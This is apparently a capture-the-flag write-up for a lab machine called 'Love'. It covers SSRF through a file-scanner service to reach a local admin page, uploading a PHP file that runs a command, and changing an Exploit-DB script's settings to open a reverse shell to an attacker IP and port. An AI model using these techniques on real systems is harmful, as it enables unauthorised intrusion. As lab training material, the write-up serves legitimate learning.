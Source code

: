- We can try to check out the certificate  
![image](https://user-images.githubusercontent.com/96747355/179380357-a520d24a-825d-4f3a-a493-e2bb6723271f.png)  
- We get some useful info to keep aside  
```
ValentineCorp
love.htb
staging.love.htb
roy@love.htb
```
- We get a new subdomain this way  

## Port 80

- We can access the new subdomain through port 80 
- We get a free file scanner with a demo option  
![image](https://user-images.githubusercontent.com/96747355/179380522-fe5268ba-4ff5-413f-932e-44cb15518522.png)  
- I tried to see with http://127.0.0.1 but if we set up a python serv we could try to see if it actually fetches a file, and it does  
![image](https://user-images.githubusercontent.com/96747355/179380875-afb0f194-35f8-4ab0-bd32-0d348cd10e7c.png)  
- What if we try one of the port like 5000 (I got a forbidden when trying to access it previously) 
- It works! We get creds for the admin panel!!  
![image](https://user-images.githubusercontent.com/96747355/179380902-6b7ddb83-cb1b-4fe4-baf7-14a8900c2292.png)  
- If we connect we get an admin panel  
![image](https://user-images.githubusercontent.com/96747355/179381037-4950fc4f-9d77-4378-b511-73aa7b0fe7cb.png)  
- In the Voters menu we can upload a file
- we make a info.php file with a whoami command inside  
![image](https://user-images.githubusercontent.com/96747355/179381057-da497368-6337-48aa-aad8-356bb63a73a3.png)  
- Let's check in the images folder (we found it previously with dirb) if it gets there.  
![image](https://user-images.githubusercontent.com/96747355/179381076-b5999848-49ae-4093-88f9-a0ee847c5965.png)  
- It does and if we click on it our command is executed  
![image](https://user-images.githubusercontent.com/96747355/179381081-63a79619-b22d-48d4-bd17-a4f166020a7c.png)  
- If we try to execute oneliners we might need to encore our shells because it is not working as is.
- I decided to have a look at other exploits for the voting system now that we are authenticated. And I could find [this one](https://www.exploit-db.com/exploits/49445)
- However when reading the script you will notice that the urls are not the proper one for us. Here is how to modify the begining of the script for it to work  
```
IP = "www.love.htb" # Website's URL
USERNAME = "admin" #Auth username
PASSWORD = "@LoveIsInTheAir!!!!" # Auth Password
REV_IP = "10.10.14.3" # Reverse shell IP
REV_PORT = "4444" # Reverse port 
# --------------------------------

INDEX_PAGE = f"http://{IP}/admin/index.php"
LOGIN_URL = f"http://{IP}/admin/login.php"
VOTE_URL = f"http://{IP}/admin/voters_add.php"
CALL_SHELL = f"http://{IP}/images/shell.php"
[STRIPPED]
```
- And of course you need to put your ip the website target. Also note that the payload is indeed encoded.
- It works and we have a reverse shell as phoebe  
![image](https://user-images.githubusercontent.com/96747355/179381782-7ac85eb8-5967-4908-aa28-26ea6e6552a0.png)  
- We can grab the user flag  
![image](https://user-images.githubusercontent.com/96747355/179381861-5cc5fcc4-aeb0-4330-981b-cace1e061e33.png)  

